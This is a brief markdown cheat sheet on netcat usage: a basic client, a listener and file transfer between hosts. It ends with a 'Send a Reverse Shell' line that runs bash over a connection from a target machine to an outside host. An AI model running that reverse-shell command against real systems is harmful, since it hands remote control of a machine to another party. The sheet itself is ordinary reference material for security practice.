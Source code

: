 
Detailed cheat sheet available here: [https://www.sans.org/security-resources/sec560/netcat_cheat_sheet_v1.pdf](https://www.sans.org/security-resources/sec560/netcat_cheat_sheet_v1.pdf)

`nc` can be used as shorthand for `netcat` on some machines.

## Basic Client

I.e. connect to an arbitrary port on an IP address:

```bash
$ nc [IP] [PORT]
```

## Basic Listener

I.e. receive connections on an arbitrary port:

```bash
$ nc -lp [PORT]
```

## File Transfer

Setup a listener on host that pushes to an outfile:

```bash
$ nc -lp [PORT] > /path/to/outfile
```

From the client (remote machine), push a file back to the listener:

```bash
$ nc -w3 [IP] [PORT] < /path/to/infile
```

## Send a Reverse Shell

From target machine:

```bash
$ nc [HOST_IP] [PORT] -e /bin/bash
```

# Tags

#cheat-sheet 